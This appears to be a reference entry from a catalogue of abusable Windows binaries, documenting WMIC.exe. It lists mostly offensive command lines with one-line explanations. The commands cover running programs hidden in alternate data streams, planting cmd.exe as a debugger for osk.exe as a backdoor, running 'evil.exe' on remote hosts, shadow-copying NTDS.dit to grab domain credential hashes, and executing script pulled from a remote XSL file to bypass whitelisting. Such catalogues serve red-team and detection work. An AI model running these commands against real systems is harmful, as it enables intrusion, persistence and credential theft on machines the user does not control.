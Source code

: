 ## WMIC.exe
* Functions: Reconnaissance, Execute, Read ADS
```

wmic.exe process call create calc
Execute calc.exe.

wmic.exe process call create "c:\ads\file.txt:program.exe"
Execute a .EXE file stored as an Alternate Data Stream (ADS).

wmic.exe useraccount get /ALL
List the user accounts on the machine.

wmic.exe process get caption,executablepath,commandline
Gets the command line used to execute a running program.

wmic.exe qfe get description,installedOn /format:csv
Gets a list of installed Windows updates.

wmic.exe /node:"192.168.0.1" service where (caption like "%sql server (%")
Check to see if the target system is running SQL.

get-wmiobject –class "win32_share" –namespace "root\CIMV2" –computer "targetname"
Use the PowerShell cmdlet to list the shares on a remote server.

wmic.exe /user:<username> /password:<password> /node:<computer_name> process call create "C:\Windows\system32\reg.exe add \"HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\osk.exe\" /v \"Debugger\" /t REG_SZ /d \"cmd.exe\" /f"
Add cmd.exe as a debugger for the osk.exe process. Each time osk.exe is run, cmd.exe will be run as well.

wmic.exe /node:"192.168.0.1" process call create "evil.exe"
Execute evil.exe on the remote system.

wmic.exe /node:REMOTECOMPUTERNAME PROCESS call create "at 9:00PM c:\GoogleUpdate.exe ^> c:\notGoogleUpdateResults.txt"
Create a scheduled execution of C:\GoogleUpdate.exe to run at 9pm.

wmic.exe /node:REMOTECOMPUTERNAME PROCESS call create "cmd /c vssadmin create shadow /for=C:\Windows\NTDS\NTDS.dit > c:\not_the_NTDS.dit"
Create a volume shadow copy of NTDS.dit that can be copied.

wmic.exe process get brief /format:"https://raw.githubusercontent.com/api0cradle/LOLBAS/master/OSBinaries/Payload/Wmic_calc.xsl"
Execute a script contained in the target .XSL file hosted on a remote server.

wmic.exe os get /format:"MYXSLFILE.xsl"
Executes JScript or VBScript embedded in the target XSL stylesheet.

wmic.exe process get brief /format:"\\127.0.0.1\c$\Tools\pocremote.xsl"
Executes JScript or VBScript embedded in the target remote XSL stylsheet.
```
   
* Resources:   
  * https://stackoverflow.com/questions/24658745/wmic-how-to-use-process-call-create-with-a-specific-working-directory
  * https://subt0x11.blogspot.no/2018/04/wmicexe-whitelisting-bypass-hacking.html
  * https://twitter.com/subTee/status/986234811944648707
   
* Full path:   
  * c:\windows\system32\wbem\wmic.exe
  * c:\windows\sysWOW64\wbem\wmic.exe
   
* Notes: Thanks to Casey Smith - @subtee  
   
